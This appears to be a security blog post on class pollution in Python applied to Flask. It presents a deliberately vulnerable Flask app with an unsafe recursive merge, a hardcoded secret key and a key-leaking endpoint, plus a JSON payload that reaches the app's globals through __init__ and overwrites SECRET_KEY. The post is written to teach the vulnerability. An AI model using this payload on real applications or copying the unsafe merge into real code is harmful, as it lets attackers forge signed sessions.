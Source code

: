 title: Prototype Pollution in Flask
publish: True
categories: [API, application security, consulting, Flask, hacking]

---

Not too long ago I shared an interesting article on Twitter titled [Prototype Pollution in Python](https://blog.abdulrah33m.com/prototype-pollution-in-python/). Not only are the memes great, but it's a fun and engaging read that does a good job of breaking down a complex topic into easy to understand concepts with practical examples. I highly recommend it if you enjoy tinkering with Python. At the bottom of the article the author mentions a couple practical examples for the reader to explore further. One of the examples was "Overwriting Flask web app secret key that's used for session signing." Anything with the word "Flask" in it catches my attention immediately, so I spent a couple of hours exploring this idea.

<!-- READMORE -->

In typical fashion, when I explore a new vulnerability, or a vulnerability that is new to me, I do a series of things that force me to experience the vulnerability from multiple perspectives. The process looks something like this.

1. Come up with a reason why a developer might decide to write code that does the thing.
2. Write a small application, or feature for an existing application, that does the thing.
3. Attack the application to determine:
    1. Different ways of discovering the thing.
    2. The risk of exploiting the thing.
    3. How development tools try to prevent the thing.
4. Modify the code to remediate the thing.
5. Validate if the thing is remediated.
6. Repeat steps 3-5 until I can't do the thing anymore.

I have found this to be the most effective approach to learning enough about a vulnerability that I can speak intelligently to developers about them.

Using the author's recursive `merge` function, I built the following Flask application.

```python
import json
from flask import Flask, request, jsonify

app = Flask(__name__)

app.config['DEBUG'] = True
app.config['SECRET_KEY'] = 'GDtfDCFYjD'

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class Person(object):

    def __init__(self):
        pass

    def serialize(self):
        return vars(self)

@app.route('/config', methods=['GET'])
def get():
    data = {'SECRET_KEY': app.config['SECRET_KEY']}
    return jsonify(data)

@app.route('/person', methods=['POST'])
def post():
    data = json.loads(request.data)
    person = Person()
    merge(data, person)
    return jsonify(person.serialize()), 201

app.run()
```

This code is pretty simple. Upon receiving a `POST` request on the `/person` endpoint, the application populates a new `Person` object by merging it with the provided JSON data. The application could then store the object to a database or whatever, but in this case it merely returns a JSON serialized version of the created `Person` object. The `/config` endpoint isn't needed and only exists to show evidence of what is happening.

The first question I usually ask is, "Why would a developer do this?" In this case, it's a bit of a stretch to merge objects this way. I know I wouldn't do this. But if I never searched for vulnerabilities that were related to things that developers should never do, I'd never find a vulnerability. The author did show that Pydash includes similar merge functionality, but I feel like it's an even further stretch because of what it expects as input. I just can't come up with a halfway decent reason why I would use Pydash like that. If you do, please let me know.

Given the example application, it's time to leverage what we learned about prototype (or class) pollution in Python to build an attack payload that completes the objective.

```json
{
    "name":"Tim",
    "birthday":"2/1/1980",
    "__init__":{
        "__globals__":{
            "app":{
                "config":{
                    "SECRET_KEY":"polluted"
                }
            }
        }
    }
}
```

This payload starts by giving the API endpoint what it needs to successfully create the person. This isn't required for the exploit to work, but it's always good to give an application what it expects in order to pass validation and ensure the payload reaches the potentially vulnerable code. The magic happens beginning with the `__init__` dunder method. It gives us access to the `__globals__` object that contains a reference to the `app` object, which contains the `config` dictionary, which contains the `SECRET_KEY`. We simply assign the secret key a new value to pollute it.

[![](/static/images/posts/2023-02-01-prototype-polution-in-flask/secret_key_polluted.png)](/static/images/posts/2023-02-01-prototype-polution-in-flask/secret_key_polluted.png)

From this point forward the application uses the secret key that we have knowledge of, and all functionality that relies on the secret key, such as token signing, is compromised. Once the server is bounced, it will reset the secret key to whatever the original value was, but we should be long gone by then, or have persisted access in some other way.

Pretty fun right? I enjoy taking vulnerabilities that are known for affecting one language or framework and seeing if I can make them work in another, and that is exactly what the author of this article did. Thanks [@Abdulrah33mK](https://twitter.com/abdulrah33mk) for sharing your research and providing me with something to play with for a while.
